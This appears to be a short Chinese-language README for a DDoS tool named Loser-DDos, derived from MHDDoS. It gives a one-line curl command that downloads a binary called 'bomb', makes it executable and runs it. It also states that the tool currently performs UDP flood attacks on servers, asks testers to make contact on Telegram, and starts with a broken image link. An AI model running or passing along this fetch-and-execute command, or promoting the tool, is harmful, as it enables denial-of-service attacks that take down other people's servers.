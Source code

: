 测试脚本
```
curl -sSL https://raw.githubusercontent.com/seagullz4/Loser-DDos/main/bomb -o bomb && chmod +x bomb && ./bomb
```

暂时只能使用UDP攻击服务器,后续内容正在添加+测试中
(一天加一个内容吧,主要是我没多少🈳)

测试用户请联系我: [@seagullz44](https://t.me/seagullz44)

原项目地址是这个哈,有兴趣的可以去看看: [MHDDoS](https://github.com/MatrixTM/MHDDoS)